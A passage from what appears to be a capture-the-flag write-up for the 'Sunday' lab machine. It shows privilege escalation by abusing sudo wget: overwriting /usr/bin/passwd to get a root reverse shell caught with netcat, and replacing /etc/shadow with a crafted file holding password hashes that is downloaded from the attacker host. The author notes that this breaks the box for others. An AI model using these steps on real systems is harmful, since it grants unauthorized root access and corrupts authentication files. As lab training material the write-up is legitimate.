     100%[==========================================================================================================================================================================================================>] 246           --.--K/s
    
    02:09:34 (69.91 KB/s) - `/usr/bin/passwd' saved [246/246]
    
    sammy@sunday:~$ passwd
    

    root@kali:~/pwk/lab/public# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 41346
    # id
    uid=101(sammy) gid=10(staff) euid=0(root) egid=3(sys) groups=10(staff)
    

#### Overwrite shadow

Overwriting and/or seemed to be the most common attempt to root this box, and it ended up with a lot of people screwing up the box and making it unusable. In fact, it led to people trying to do the finger enumeration in the initial stage and getting nothing back because the user list was jacked up.`/etc/passwd``/etc/shadow`

In general, there are just better ways to do this. That said, if you want to go this route, here’s one way how.

Since we already have the shadow backup file, we’ll use that. It doesn’t have a root entry at the top, but let’s add one:

    root:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
    mysql:NP:::::::
    openldap:*LK*:::::::
    webservd:*LK*:::::::
    postgres:NP:::::::
    svctag:*LK*:6445::::::
    nobody:*LK*:6445::::::
    noaccess:*LK*:6445::::::
    nobody4:*LK*:6445::::::
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
    

In this case, I’ve made the root entry the same as sunny, other than the username.

Then get it with wget, and then su and give it password “sunday”:

    sammy@sunday:~$ sudo wget -O /etc/shadow http://10.10.14.5/shadow
    --02:00:10--  http://10.10.14.5/shadow
               => `/etc/shadow'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 392 [application/octet-stream]
    
    100%[==========================================================================================================================================================================================================>] 392           --.--K/s
    